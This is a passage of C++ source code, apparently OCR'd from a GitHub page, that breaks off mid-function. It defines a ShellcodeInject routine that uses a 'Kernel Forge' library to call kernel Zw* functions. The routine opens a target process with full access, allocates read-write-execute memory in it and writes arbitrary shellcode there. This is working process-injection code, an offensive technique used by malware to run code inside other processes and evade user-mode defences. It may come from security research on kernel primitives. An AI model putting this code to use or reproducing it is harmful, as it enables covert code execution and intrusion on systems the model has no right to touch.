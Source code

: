 ```C++
BOOL ShellcodeInject(HANDLE ProcessId, PVOID Shellcode, SIZE_T ShellcodeSize)
{
    BOOL bRet = FALSE;
    DWORD_PTR Status = 0;
    HANDLE hProcess = NULL, hThread = NULL;    
    PVOID ShellcodeAddr = NULL;

    CLIENT_ID ClientId;
    OBJECT_ATTRIBUTES ObjAttr;       

    InitializeObjectAttributes(&ObjAttr, NULL, OBJ_KERNEL_HANDLE, NULL, NULL);

    ClientId.UniqueProcess = ProcessId;
    ClientId.UniqueThread = NULL;

    // initialize Kernel Forge library
    if (!KfInit())
    {
        goto _end;
    }

    PVOID Args_1[] = { KF_ARG(&hProcess),                   // ProcessHandle
                       KF_ARG(PROCESS_ALL_ACCESS),          // DesiredAccess
                       KF_ARG(&ObjAttr),                    // ObjectAttributes
                       KF_ARG(&ClientId) };                 // ClientId

    // open the target process by its PID
    if (!KfCall("ZwOpenProcess", Args_1, 4, KF_RET(&Status)))
    {
        goto _end;
    }

    if (NT_ERROR(Status))
    {
        goto _end;
    }

    PVOID Args_2[] = { KF_ARG(hProcess),                    // ProcessHandle    
                       KF_ARG(&ShellcodeAddr),              // BaseAddress
                       KF_ARG(0),                           // ZeroBits
                       KF_ARG(&ShellcodeSize),              // RegionSize
                       KF_ARG(MEM_COMMIT | MEM_RESERVE),    // AllocationType
                       KF_ARG(PAGE_EXECUTE_READWRITE) };    // Protect

    // allocate memory for the shellcode
    if (!KfCall("ZwAllocateVirtualMemory", Args_2, 6, KF_RET(&Status)))
    {
        goto _end;
    }    

    if (NT_ERROR(Status))
    {
        goto _end;
    }

    PVOID Args_3[] = { KF_ARG(hProcess),                    // ProcessHandle    
                       KF_ARG(ShellcodeAddr),               // BaseAddress
                       KF_ARG(Shellcode),                   // Buffer
                       KF_ARG(ShellcodeSize),               // NumberOfBytesToWrite
                       KF_ARG(NULL) };                      // NumberOfBytesWritten

    // copy shellcode data into the allocated memory
    if (!KfCall("ZwWriteVirtualMemory", Args_3, 5, KF_RET(&Status)))
```